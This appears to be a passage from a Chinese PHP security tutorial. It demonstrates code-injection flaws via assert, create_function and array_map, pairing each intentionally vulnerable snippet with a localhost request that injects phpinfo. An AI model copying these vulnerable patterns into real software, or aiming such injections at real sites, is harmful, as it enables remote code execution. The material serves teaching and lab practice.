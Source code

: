 访问：

```
http://localhost:2500/codeexec.php?chybeta=assert&ph0en1x[]=phpinfo()
```



### create_function

```php
string create_function ( string $args , string $code )
```

该函数的内部实现用到了`eval`，所以也具有相同的安全问题。第一个参数`args`是后面定义函数的参数，第二个参数是函数的代码。

```php
<?php
	$a = $_GET['chybeta'];
	$b = create_function('$a',"echo $a");
	$b('');
?>
```

访问：

```
http://localhost:2500/codeexec.php
?chybeta=phpinfo();
```



### array_map()

```php
array array_map ( callable $callback , array $array1 [, array $... ] )
```

作用是为数组的每个元素应用回调函数 。其返回值为数组，是为 array1 每个元素应用 callback函数之后的数组。 callback 函数形参的数量和传给 array_map() 数组数量，两者必须一样。

```php
<?php
	$array = array(0,1,2,3,4,5);
	array_map($_GET['chybeta'],$array);
?>
```

访问：

```php
http://localhost:2500/codeexec.php
?chybeta=phpinfo
```



注意没有括号`()`和分号`;`。

## 二、系统命令执行
